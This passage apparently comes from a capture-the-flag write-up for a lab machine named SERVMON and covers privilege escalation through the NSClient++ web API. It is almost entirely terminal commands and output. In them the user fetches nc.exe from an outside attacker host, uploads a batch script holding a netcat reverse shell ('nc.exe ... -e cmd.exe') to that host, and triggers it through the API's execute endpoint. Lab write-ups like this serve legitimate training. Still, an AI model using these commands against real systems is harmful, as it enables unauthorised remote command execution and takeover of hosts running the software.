 ![](../.gitbook/assets/screenshot_2020-06-20_22-54-12.png)

### Taking the API route

[https://docs.nsclient.org/api/](https://docs.nsclient.org/api/)



nadine@SERVMON C:\Users\Nadine&gt;curl -k -u admin [https://localhost:8443/api/v1](https://localhost:8443/api/v1) Enter host password for user 'admin': curl: \(7\) Failed to connect to localhost port 8443: Connection refused

nadine@SERVMON C:\Temp&gt;curl -s -k -u admin -X PUT [https://127.0.0.1:8443/api/v1/scripts/ext/scripts/evil.bat](https://127.0.0.1:8443/api/v1/scripts/ext/scripts/evil.bat) --data-binary "C:\Temp\nc.exe 10.10.15.20 12345 -e cmd.exe" Enter host password for user 'admin': Added evil as scripts\evil.bat

nadine@SERVMON C:\Users\Nadine&gt;curl -s -k -u admin [https://127.0.0.1:8443/api/v1/queries/evil/commands/execute?time=5m](https://127.0.0.1:8443/api/v1/queries/evil/commands/execute?time=5m)

```text
nadine@SERVMON C:\Temp>curl http://10.10.15.20:8090/nc.exe
Warning: Binary output can mess up your terminal. Use "--output -" to tell
Warning: curl to output it to your terminal anyway, or consider "--output
Warning: <FILE>" to save to a file.

nadine@SERVMON C:\Temp>curl http://10.10.15.20:8090/nc.exe --output nc.exe
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 59392  100 59392    0     0  59392      0  0:00:01 --:--:--  0:00:01  264k

nadine@SERVMON C:\Temp>dir
 Volume in drive C has no label.
 Volume Serial Number is 728C-D22C

 Directory of C:\Temp

21/06/2020  13:12    <DIR>          .
21/06/2020  13:12    <DIR>          ..
21/06/2020  13:12                 0 evil.bat
21/06/2020  14:36            59,392 nc.exe
               2 File(s)         59,392 bytes
               2 Dir(s)  27,866,644,480 bytes free

nadine@SERVMON C:\Temp>curl -s -k -u admin https://127.0.0.1:8443/api/v1/queries/evil/commands/execute?time=5m
```